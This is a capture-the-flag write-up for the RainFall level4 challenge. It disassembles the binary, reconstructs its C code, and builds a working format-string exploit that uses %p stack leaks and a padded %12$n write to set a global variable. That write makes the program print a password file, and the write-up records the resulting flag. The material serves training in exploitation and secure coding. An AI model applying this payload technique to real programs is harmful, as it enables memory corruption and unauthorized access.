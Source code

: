 
### notes
```c
0x08049810  m    : global variable m
0x08048444  p    : fn : called in n
0x08048457  n    : fn : called in main
0x080484a7  main : rak 3arf
```

### 0x080484a7 : main() : disassembly
* __`<0> -> <+12> : after stack aligement, the main function just call the n function and exit, that's all`__
```c
0x080484a7 <+0>:	push   ebp
0x080484a8 <+1>:	mov    ebp,esp
0x080484aa <+3>:	and    esp,0xfffffff0
0x080484ad <+6>:	call   0x8048457 <n>
0x080484b2 <+11>:	leave  
0x080484b3 <+12>:	ret   
```
### 0x08048457 : n() : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c
{
    char *buffer_1[512] = ebp-520
    // 0x218 ... 536
    // 0x208 ... 520
    // 0x200 ... 512
    // 0x1025544 ... 16930116
}
```
* __`<0> -> <+12> : push old ebp to stack, push value of old esp into ebp, then allocate 536 bytes for n stack frame`__
```c
0x08048457 <+0>:	push   ebp
0x08048458 <+1>:	mov    ebp,esp
0x0804845a <+3>:	sub    esp,536
```
* __`<+9> -> <+35> : fill 511 character from user input to buffer_1 (511 + \0 = 512 )`__
```c
0x08048460 <+9>:	mov    eax,ds:0x8049804 // stdin
0x08048465 <+14>:	mov    DWORD PTR [esp+8],eax
0x08048469 <+18>:	mov    DWORD PTR [esp+4],512
0x08048471 <+26>:	lea    eax,[buffer_1]
0x08048477 <+32>:	mov    DWORD PTR [esp],eax
0x0804847a <+35>:	call   0x8048350 <fgets@plt>
fgets(buffer_1, 512, stdin)
```
* __`<+40> -> <+49> : call p function with buffer_1 as argument`__
```c
0x0804847f <+40>:	lea    eax,[buffer_1]
0x08048485 <+46>:	mov    DWORD PTR [esp],eax
0x08048488 <+49>:	call   0x8048444 <p>
p(buffer_1)
```
* __`<+54> -> <+64> : compare value of global variable m with 16930116, if equal , go to <n+66>`__
```c
0x0804848d <+54>:	mov    eax,ds:0x8049810(m variable)
0x08048492 <+59>:	cmp    eax,16930116
0x08048497 <+64>:	jne    0x80484a5 <n+78>
if (m != 16930116) { jump to <n+78> (return)}
```
* __`<+66> -> <+73> : print .pass content with system`__
```c
0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590 // "/bin/cat /home/user/level5/.pass"
0x080484a0 <+73>:	call   0x8048360 <system@plt>
system("/bin/cat /home/user/level5/.pass")
```
* __`<+78> -> <+79> : exit the n function`__
```c
0x080484a5 <+78>:	leave
0x080484a6 <+79>:	ret
return
```
### 0x08048444 : p(arg1) : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c
{
    eip = ebp+4
    arg1 = ebp+8

    // 0x18 ... 24
}
```
* __`<0> -> <+3> : push old ebp to stack, push value of old esp into ebp, then allocate 24 bytes for p stack frame`__
```c
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp, 24
```
* __`<6> -> <+12> : print the user input in buffer_1 passed from n to p function`__
```c
0x0804844a <+6>:	mov    eax,DWORD PTR [arg1]
0x0804844d <+9>:	mov    DWORD PTR [esp],eax
0x08048450 <+12>:	call   0x8048340 <printf@plt>
printf(arg1)
```
* __`<17> -> <+18> : exit p function and continue in n function`__
```c
0x08048455 <+17>:	leave  
0x08048456 <+18>:	ret  
```

### Code Prediction 
```c
int m = 0;

void p(arg1) {
    printf(arg1);
    return;
}

void n() {
    char *buffer_1[512];

    fgets(buffer_1, 512, stdin);

    p(buffer_1);

    if (m == 16930116) {
        system("/bin/cat /home/user/level5/.pass");
    }

    return;
}

int main(int argc(ebp+0x8), char **argv(ebp+12)) {
    n()
    return (0);
    
}

```
### Stack Illustration
[![stack view](./Ressources/level4-stack-diagram.png)](./Ressources/level4-stack-diagram.png)

---
### Process of the Exploit
- what program do ? :
    - there is a global variable m = 0
    - the program takes 511 character from the user input into buffer_1
    - calls printf with that buffer_1
    - make a comparison : if `(m == 16930116) {execute the shell}` else `exit`
                            
- road to goal ? :
    - same as [level3](../level3/readme.md)
    - we will have to fill m with the value _16930116_ using printf format
    - the difference here is that we cant fill it by printing a character 16930116 times , will be block the stdin since the input will be huge
    - we can use the space padding solution __"%[space padding number]d"__
- start debug  :
    - lets find the position of our m address when passed to printf
        ```c
        level4@RainFall:~$ (python -c 'print  "\x08\x04\x98\x10"[::-1] + "%p " * 20') | ./level4
        0xb7ff26b0 0xbffff754 0xb7fd0ff4 (nil) (nil) 0xbffff718 0x804848d  0xbffff510 0x200      0xb7fd1ac0 
        0xb7ff37d0 0x8049810  0x25207025 0x70252070  0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
                    ↑ 
                    here at position : 12
        ```
    - the m address is placed at the 12th position
    lets test filling the m with val: 1337 for example:
        ```c
        (gdb) b *0x08048492
        Breakpoint 7 at 0x8048492
        (gdb) 
        (gdb) run <<< $(python -c 'print "\x08\x04\x98\x10"[::-1] + "%1333d" + "%12$n"')
        The program being debugged has been started already.
        Start it from the beginning? (y or n) y

        Starting program: /home/user/level4/level4 <<< $(python -c 'print "\x08\x04\x98\x10"[::-1] + "%1333d" + "%12$n"')
                                                                                                        -1208015184
        Dump of assembler code for function n:
        0x08048457 <+0>:	push   ebp
        0x08048458 <+1>:	mov    ebp,esp
        0x0804845a <+3>:	sub    esp,0x218
        0x08048460 <+9>:	mov    eax,ds:0x8049804
        0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
        0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
        0x08048471 <+26>:	lea    eax,[ebp-0x208]
        0x08048477 <+32>:	mov    DWORD PTR [esp],eax
        0x0804847a <+35>:	call   0x8048350 <fgets@plt>
        0x0804847f <+40>:	lea    eax,[ebp-0x208]
        0x08048485 <+46>:	mov    DWORD PTR [esp],eax
        0x08048488 <+49>:	call   0x8048444 <p>
        0x0804848d <+54>:	mov    eax,ds:0x8049810
        => 0x08048492 <+59>:	cmp    eax,0x1025544
        0x08048497 <+64>:	jne    0x80484a5 <n+78>
        0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
        0x080484a0 <+73>:	call   0x8048360 <system@plt>
        0x080484a5 <+78>:	leave  
        0x080484a6 <+79>:	ret    
        End of assembler dump.

        Breakpoint 5, 0x08048492 in n ()
        (gdb) i r
        eax            0x539	1337  <======= HERE is the new value of M variable
        ecx            0x0	0
        edx            0x0	0
        ebx            0xb7fd0ff4	-1208152076
        esp            0xbffff500	0xbffff500
        ebp            0xbffff718	0xbffff718
        esi            0x0	0
        edi            0x0	0
        eip            0x8048492	0x8048492 <n+59>
        eflags         0x200286	[ PF SF IF ID ]
        cs             0x73	115
        ss             0x7b	123
        ds             0x7b	123
        es             0x7b	123
        fs             0x0	0
        gs             0x33	51
        (gdb) 

        ```
    - good , now lets just instead of 1337 we try with 16930116
        __`(python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112x" + "%12$n"'; cat - ) | ./level4`__

---
### Solution :

```shell
level4@RainFall:~$ (python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d" + "%12$n"') | ./level4 


[...]


                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ 
```

__flag : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`__

